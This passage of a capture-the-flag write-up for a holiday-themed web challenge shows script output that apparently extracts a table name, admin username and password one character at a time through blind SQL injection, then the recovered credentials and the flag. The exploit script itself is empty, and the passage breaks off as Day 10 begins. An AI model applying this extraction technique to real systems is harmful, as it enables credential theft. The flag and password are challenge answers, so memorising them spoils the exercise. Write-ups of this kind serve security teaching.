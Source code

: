 ```python

```

Running the thing:
```sh
$ ./script.py TABLE_NAME
Result: 'a%'
Result: 'ad%'
Result: 'adm%'
Result: 'admi%'
Result: 'admin%'
```

I put this table name into the username and password exploit strings. From here I could pull the login:
```
$ ./script.py USERNAME  
Result: 'a%'
Result: 'ad%'
Result: 'adm%'
Result: 'admi%'
Result: 'admin%'

./script.py PASSWORD
Result: 'S3creT_%'
Result: 'S3creT_p%'
Result: 'S3creT_p4%'
Result: 'S3creT_p4s%'
Result: 'S3creT_p4ss%'
Result: 'S3creT_p4ssw%'
Result: 'S3creT_p4ssw0%'
Result: 'S3creT_p4ssw0r%'
Result: 'S3creT_p4ssw0rd%'
Result: 'S3creT_p4ssw0rd-%'
Result: 'S3creT_p4ssw0rd-$%'
```

Logging in with the `admin/S3creT_p4ssw0rd-$` credentials gives the flag:

`flag{6e8a2df4-5b14-400f-a85a-08a260b59135}`

# Day 10

> You've made it this far! The grinch is recruiting for his army to ruin the holidays but they're very picky on who they let in!

{F1134463}

We don't have credentials to log in. Registering a new account takes us to a user page:

{F1134464}

Sometimes when inspecting the HTML of webpages you can find some hidden information. Looks like Grinch forgot to delete a comment in the framework he was using on the main page:
